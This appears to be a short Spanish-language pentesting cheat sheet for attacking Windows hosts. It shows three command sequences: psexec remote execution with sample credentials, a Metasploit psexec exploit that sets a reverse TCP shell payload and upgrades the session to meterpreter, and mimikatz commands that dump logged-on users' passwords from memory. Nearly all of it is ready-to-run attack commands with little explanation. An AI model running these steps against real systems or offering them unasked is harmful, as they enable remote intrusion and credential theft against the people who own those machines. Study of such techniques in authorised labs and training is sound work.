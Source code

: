 

#### Conectar de windows a windows 

En el caso que queramos acceder desde un host windows a otro windows remotamente desde linea de terminal, es posible con `psexec`. Este se encuentra entre los ejecutables de `pstools` que podemos encontrar en las herramientas de windows.

https://docs.microsoft.com/en-us/sysinternals/downloads/pstools

```bash
# programa	ip-destino      dominio\usuario	 contraseña	  que-ejecutar
psexec.exe  \\10.1.1.13 	-u WIN7\pedro 	-p pedro123 	cmd.exe
```

- El problema de esta opción es que tenemos que tener todos los datos.





#### De shell a meterpreter

Si por la razón que sea solo hemos podido acceder a un dispositivo windows desde una shell y queremos  utilizar las utilidades de meterpreter, tenemos una posible solución.



```bash
use exploit/windows/smb/psexec
set payload windows/shell/reverse_tcp
set .... # añadir opcione requeridas
exploit
C:> Ctl+Z	# dejar sesion en 2º plano

use post/multi/manage/shell_to_meterpreter
set lhost ...
set session ...
run

sessions # ver sesiones activas, ( se habra creado ua nueva )
sessions  -i ...	# entrar en sesion nueva
```

> Donde añado `...`  introducir el argumento por el payload o comando.



#### Extraer credenciales

Desde windows tenemos el programa mimikatz que entre otras cosas, nos permite extraer las credenciales de los usuarios con un sesión abierta, ya que mimikatz las extra los datos temporales cargados en ram.

descargar mimikats: https://github.com/gentilkiwi/mimikatz/releases

ejecutar el archivo exe con permisos de administrador de la arquitectura de vuestro sistema operativo. 

```bash
mimikatz.exe
privilege::debug	# comprobar privilegios 
sekurlsa::logonpasswords # extraer credenciales ram
```
